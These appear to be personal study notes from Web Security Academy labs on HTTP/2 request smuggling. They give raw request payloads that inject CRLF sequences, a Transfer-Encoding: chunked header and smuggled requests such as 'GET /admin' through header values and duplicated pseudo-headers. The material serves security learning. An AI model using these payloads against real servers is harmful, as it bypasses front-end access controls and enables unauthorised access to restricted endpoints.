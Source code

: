 ```
Host: 0a5e001603e9ba1cc0630ad000180094.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
foo: bar\r\nTransfer-Encoding: chunked

0

POST / HTTP/1.1
Host: 0a5e001603e9ba1cc0630ad000180094.web-security-academy.net
Cookie: session=g5VS4PaNaMcMZ1uI02pCFquZaqDzxPW4; _lab_analytics=WKesnTTuo8aqDwQZi1tet4JIbNutweZ7odsZVzSSLjPiagwKcmsIKJMVDq0UPBXuGn04iuFmgisVdmi9vBegM8v0V072K5R4dZhnMwSyZFyJ2UKw5wgMVsMb4VAehnlg2thHlf4WqEXcOVZcmH0HkTilNqh4DLOwpikt9VGEAiRR4L24jChh4282BHUaiKZWY5pGPKXbyEJrPfHedNvv50yDmjm6pbAgZreZJCkCM7nB9IAddhomuaPrF8vY5E1o
Content-Type: application/x-www-form-urlencoded
Content-Length: 800

search=
```
## HTTP/2 request splitting
when HTTP/2 downgrading is in play, you can also cause this split to occur in the headers  
```
:method 	GET
:path 	/
:authority 	vulnerable-website.com
foo 	

bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
Host: vulnerable-website.com
```
## Accounting for front-end rewriting
To split a request in the headers, you need to understand how the request is rewritten by the front-end server and account for this when adding any HTTP/1 headers manually. Otherwise, one of the requests may be missing mandatory headers.  
For example, you need to ensure that both requests received by the back-end contain a Host header. Front-end servers typically strip the :authority pseudo-header and replace it with a new HTTP/1 Host header during downgrading. There are different approaches for doing this, which can influence where you need to position the Host header that you're injecting.  
To test it. we simply add a header via Inspector like this:
```
foo: bar\r\n
\r\n
GET /404pls HTTP/1.1
Host: 0ae300fd0394e2578008ef9700b2003f.web-security-academy.net
```
If second request returns 404, we are successful
## Supplying an ambiguous path
Modify headers via Inspector:
```
:method 	POST
:path 	/anything
:path 	/admin
:authority 	vulnerable-website.com
```
## Injecting a full request line
```
:method 	GET /admin HTTP/1.1
:path 	/anything
:authority 	vulnerable-website.com
```